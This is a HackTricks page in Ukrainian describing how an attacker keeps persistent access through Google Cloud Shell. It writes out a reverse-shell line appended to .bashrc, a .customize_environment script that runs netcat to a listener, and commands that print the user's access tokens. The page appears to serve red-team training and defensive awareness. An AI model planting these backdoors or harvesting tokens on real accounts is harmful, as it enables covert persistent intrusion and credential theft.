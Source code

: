 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких супутніх витрат.

Ви можете отримати доступ до Cloud Shell Google з **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

Ця консоль має деякі цікаві можливості для атакуючих:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю автентифікованого екземпляра Cloud Shell (Службові облікові записи можуть, навіть будучи власниками організації).
2. Вказаний екземпляр **зберігатиме свій домашній каталог принаймні 120 днів**, якщо не буде жодної активності.
3. **Немає можливостей для організації моніторити** активність цього екземпляра.

Це в основному означає, що атакуючий може помістити бекдор у домашній каталог користувача, і поки користувач підключається до GC Shell принаймні кожні 120 днів, бекдор виживе, і атакуючий отримає оболонку щоразу, коли вона запускається, просто виконавши:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Є ще один файл у домашній папці під назвою **`.customize_environment`**, який, якщо існує, буде **виконуватись щоразу**, коли користувач отримує доступ до **cloud shell** (як у попередній техніці). Просто вставте попередній бекдор або один з наступних, щоб підтримувати стійкість, поки користувач "часто" використовує cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зазначити, що **перший раз, коли виконується дія, що вимагає аутентифікації**, у браузері користувача з'являється вікно авторизації. Це вікно потрібно прийняти, перш ніж команда зможе виконатися. Якщо з'явиться несподіване вікно, це може викликати підозру і потенційно скомпрометувати метод збереження.
{% endhint %}

Це вікно, що з'являється при виконанні `gcloud projects list` з cloud shell (як атакуючий), переглянуте в сеансі браузера користувача:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється SSH з'єднання

В основному, використовуються ці 3 API виклики:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (дозволить вам додати ваш публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (дозволить вам запустити екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомить вам IP адресу google cloud shell)

Але ви можете знайти додаткову інформацію в [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
